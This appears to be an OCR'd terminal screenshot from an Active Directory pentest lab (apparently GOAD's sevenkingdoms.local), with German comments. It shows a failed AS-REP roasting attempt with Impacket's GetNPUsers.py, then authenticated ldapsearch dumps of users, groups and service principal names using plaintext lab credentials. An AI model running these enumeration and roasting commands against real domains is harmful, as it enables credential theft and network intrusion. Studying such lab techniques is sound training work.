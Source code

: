 # AS-REP Roasting durchführen
GetNPUsers.py north.sevenkingdoms.local/ -dc-ip 192.168.20.11 -usersfile users.txt -outputfile asrep_hashes.txt
/home/tala/myenv/lib/python3.12/site-packages/impacket/version.py:12: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
  import pkg_resources
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

/home/tala/myenv/bin/GetNPUsers.py:165: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)



➜  ~ # Mit gültigen Credentials komplette LDAP-Dumps
ldapsearch -x -H ldap://192.168.20.11 -D "north\jon.snow" -w iknownothing -b "DC=north,DC=sevenkingdoms,DC=local" "(objectClass=*)" > ldap_dump_north.txt

# Spezifische Objekt-Klassen
ldapsearch -x -H ldap://192.168.20.11 -D "north\jon.snow" -w iknownothing -b "DC=north,DC=sevenkingdoms,DC=local" "(objectClass=user)" sAMAccountName userPrincipalName description

ldapsearch -x -H ldap://192.168.20.11 -D "north\jon.snow" -w iknownothing -b "DC=north,DC=sevenkingdoms,DC=local" "(objectClass=group)" sAMAccountName member

# Service Principal Names mit Authentifizierung
ldapsearch -x -H ldap://192.168.20.11 -D "north\jon.snow" -w iknownothing -b "DC=north,DC=sevenkingdoms,DC=local" "servicePrincipalName=*" servicePrincipalName sAMAccountName
# extended LDIF
#
# LDAPv3
# base <DC=north,DC=sevenkingdoms,DC=local> with scope subtree
# filter: (objectClass=user)
# requesting: sAMAccountName userPrincipalName description 
#

# Administrator, Users, north.sevenkingdoms.local
dn: CN=Administrator,CN=Users,DC=north,DC=sevenkingdoms,DC=local
description: Built-in account for administering the computer/domain
sAMAccountName: Administrator

